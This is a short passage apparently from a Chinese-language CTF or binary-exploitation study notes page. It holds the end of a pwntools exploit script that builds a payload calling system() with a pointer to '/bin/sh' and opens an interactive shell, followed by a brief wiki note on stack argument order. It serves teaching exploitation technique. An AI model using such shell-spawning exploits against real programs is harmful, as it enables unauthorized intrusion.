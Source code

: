 ```python
payload += p32(0xdeadbeef).decode('latin') #随意填写system函数调用结束的返回地址 0x1也行
payload += p32(bin_addr).decode('latin')   #system函数的参数，指向“/bin/sh”，实现调用

io.recvline()
io.sendline(payload)
io.interactive()
io.close()
```
## Wiki

### 栈

参数入栈方式是从右向左。

![Alt text](imgs/pwn_stack01.jpg)

![Alt text](imgs/pwn_01_stack01.jpg)
